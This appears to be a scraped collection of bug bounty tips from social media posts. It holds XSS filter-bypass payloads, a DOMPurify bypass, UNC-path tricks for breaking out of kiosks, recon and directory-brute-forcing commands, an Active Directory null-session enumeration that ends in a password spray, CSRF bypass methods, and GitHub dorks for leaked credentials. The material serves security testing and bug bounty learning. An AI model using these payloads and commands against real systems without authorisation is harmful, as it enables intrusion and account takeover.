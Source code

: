 ## Tips



@PaulosYibelo

Disable/Bypass DOMPurify by abusing the XSSAuditor, site/?a=<script type="text/javascript" src="src/purify.js"></script> will block the script if the site doesn’t return X-XSS-Protection: 0;

------------------------------------


Having a breakout exercise and direct drive access is forbidden? Perhaps try these too:
\\localhost\d$
\\127.0.0.1\d$
file:\\127.0.0.1\d$
\\--1.ipv6-literal.net\d$
\\http://0--1.ipv6-literal.net\d$
\\--0-1.ipv6-literal.net\d$
file://--0-1.ipv6-literal.net\d$

---------------------------------------------

1) amass enum -config config.ini -brute -w all.txt
2) Identify hosts, not previously found.
3) gobuster -u http://example.com -w content_discovery_nullenc0de.txt
4) Read through the JS files gobuster found.
5) Browse to links identified in JS.
6) Download list of APIs/pass.

-----------------------------------------

WAF bypass w/ Tab html entity for obfuscation

XSS payload:
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

Renders as:
<iframe src="java    sc    ript:al    ert()"></iframe>

--------------------------------------------


Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.

------------------------------------------



Here's a regular expression for extracting variable names from JS. I'll be using the results for parameter fuzzing.

/(?<=(var|const|let) )([A-Za-z0-9_]+?)(?=(;|,|=| ))/g

It's far from perfect, but I'm not great with regex.


------------------------------------


Quick Tip: While you are trying to find more subdomains and you use the Google Dork:  site:*.example.com, NEVER forget to check
site:*.*.example.com and
site:*.*.*.example.com 


-------------------------------

Everything patched? Good baselines? Find NULL Sessions!
1) Find your DC's
nmap -sS -p3268,3269 -iL subnets.txt
2) Enumerate Users
enum4linux -U 192.168.x.x
3) Pull Password Policy
enum4linux -P 192.168.x.x
4) Password Spray Usernames
cme smb 192.168.x.x -u users.txt -p Summer2019

------------------------------------

Jin Wook Kim
@wugeej
[Guide Book] Bypassing CSRF Protection

1. Clickjacking
2. Change the request method
3. Delete the token param or send a blank token
4. Use another session’s CSRF token
5. Session fixation
6. CSRF Protection via Referer
7. Bypass the regex

-------------------------------
I bypassed an interesting xss protection with :
%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e


https://twitter.com/sametsahinnet/status/1169223269708455944

---------------------------------------

hackbar plugin

https://twitter.com/CyberWarship/status/1169328352496365570

------------------------------------

Hussein Daher
@HusseiN98D
Analysis of an RCE I found past week. RT and Like if you want more! If you got a bug bounty program, I'm open to any invite :) #bugbounty #bugbountytip #bugbountytips #infosec

https://twitter.com/HusseiN98D/status/1170421494830305280

------------------------------------------

Recon Tip:

As javascript files are always full of secret information here is how to can use `grep` to extract comments inside JavaScript.

Example:

curl https://paypalobjects.com/api/checkout.js | grep '//'

-----------------------------------

XSS filter bypass using stripped </div> tags to obfuscate.  Multiple P2 Stored XSS on a private bug bounty program.

XSS Payload:
<</div>script</div>>alert()<</div>/script</div>

---------------------------------------------------


Dir scan on a subdomain -> Access to /api/admin HTTP 403 -> access to /api/admin.json HTTP 200 -> SMTP creds leaking -> no-reply company email takeover

Reported as a crit. Always try to add .json, you never know how the application router's going to behave #bugbountytips

-----------------------------------------------------------

#bugbountytips #bugbounty Top GitHub Dorks and Scan GitHub Repositories for Sensitive Data
password
dbpassword
dbuser
access_key
secret_access_key
bucket_password
redis_password
root_password
HOST=http://smtp.gmail.com
filename:.htpasswd
extension:sql mysql dump

----------------------------------------

/api POST Request 
 
&ul="><img+src=x+onerror=prompt(1);>.

/api Response
{
"errors": {
"ul": "Invalid value \"><img src=x onerror=prompt(1);>."
}
}

but no XSS "><"is being filtered with "&lt; &gt;"  is there any way to bypass these filters?

--------------------------------------------------------------------------

Quick and dirty way to find parameters vulnerable to LFI & Path Traversal & SSRF & Open Redirect:
Burp Search > Regex 
\?.*=(\/\/?\w+|\w+\/|\w+(%3A|:)(\/|%2F)|%2F|[\.\w]+\.\w{2,4}[^\w])

-----------------------

oneliner to open a bunch of hosts/urls #bugbountytips 

firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`




firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}'
firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`
 
chromium-browser `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}'
chromium-browser `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`

-----------------------------------


Found easy xss

1. Subdomain enumeration
2. S3 bucket with access denied
3. Ffuf found -> /cdn/
4. Ffuf found -> /cdn/proxy.html
5. Blank page -> view source, found url param (document.location)
6. ?url=javascript:alert ()

--------------------------------------------


Account takeover
1. 1 account logged in 2 browsers
2. Tried signup with same account but showing email exist and redirect to signup page
3. In Firefox captured request of sign up submit >Do intercept > Response > Email exists

----------------------------------------------


Bug Bounty Tip for checking javascript files response which are stored in text file:

cat js_files_url_list.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk